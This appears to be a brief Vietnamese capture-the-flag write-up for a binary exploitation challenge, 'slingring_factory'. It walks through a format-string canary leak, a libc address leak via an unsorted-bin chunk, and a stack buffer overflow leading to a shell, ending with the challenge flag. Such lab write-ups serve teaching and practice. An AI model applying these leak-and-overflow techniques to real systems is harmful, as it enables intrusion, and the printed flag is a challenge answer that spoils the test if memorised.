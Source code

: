 # write up slingring_factory
- đầu tiên bài có lỗi format string ở ngay đầu có thể dùng để leak canary hoặc địa chỉ thì em leak canary 
```c
 fgets(format, 6, stdin);
  printf("Hello, ");
  printf(format);
  putchar(10);
```
- vì hàm này có chứa buffer nên tiếp theo cần phải có được libc để có được gadgets
```c
int use_slingring()
{
  char s[4]; // [rsp+Ch] [rbp-44h] BYREF
  char buff[56]; // [rsp+10h] [rbp-40h] BYREF
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Which ring would you like to use (id): ");
  fgets(s, 4, stdin);
  fflush(stdin);
  atoi(s);
  printf("\nPlease enter the spell: ");
  fgets(buff, 256, stdin);
  puts("\nThank you for visiting our factory! We will now transport you.");
  return puts("\nTransporting...");
}

```
-  allocate tất cả các chunks  
```python
for i in range(0,10):
        add(i,b"aaaaaaa")

```
- rồi free 8 chunks thì chunks thứ 8 sẽ được bỏ trong unsorted bin, nhưng mà có 1 vấn đề, địa chỉ của nó trỏ tới địa chỉ libc
```bash
pwndbg> bin
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

tcachebins
0x90 [  7]: 0x55555555b600 —▸ 0x55555555b570 —▸ 0x55555555b4e0 —▸ 0x55555555b450 —▸ 0x55555555b3c0 —▸ 0x55555555b330 —▸ 0x55555555b2a0 ◂— 0x0
fastbins
empty
unsortedbin
all: 0x55555555b680 —▸ 0x7ffff7e1ace0 ◂— 0x55555555b680
smallbins
empty
largebins
empty

```
( không biết vì sao nữa =) do may mắn thử nghiệm nên thấy vậy)

- thông qua option 1 để show ra danh sách thì nó có in địa chỉ 
```bash 
Welcome to my secret sling ring factory.
What do you want to do today?

1. Show Forged Rings
2. Forge Sling Ring
3. Discard Sling Ring
4. Use Sling Ring
>> $ 1

[Slot]        | [Amt] | [Destination]
Ring Slot #0  | [9]   | [UUU\x05
Ring Slot #1  | [9]   | \xfb\xe7
Ring Slot #2  | [9]   | k\xe6
Ring Slot #3  | [9]   | \x9b\xe6
Ring Slot #4  | [9]   | \x0b\xe1
Ring Slot #5  | [9]   | \xbb\xe1
Ring Slot #6  | [9]   | +\xe0
Ring Slot #7  | [144]   | \xe0\xac\xe1\xf7\xff
Ring Slot #8  | [9]   | a
Ring Slot #9  | [9]   | a
Press ENTER to return.
$  
```

- vậy là chỉ cần lấy được libc là ok, cộng với canary nữa thì sẽ dùng được option 4 để overflow và có thể chạy shell
### và thế là em đã có flag
```bash
Transporting...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'run\n'
flag.txt
run
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x48 bytes:
    b'grey{y0u_4r3_50rc3r3r_supr3m3_m45t3r_0f_th3_myst1c_4rts_mBRt!y4vz5ea@uq}'
grey{y0u_4r3_50rc3r3r_supr3m3_m45t3r_0f_th3_myst1c_4rts_mBRt!y4vz5ea@uq}[*] Got EOF while reading in interactive

```
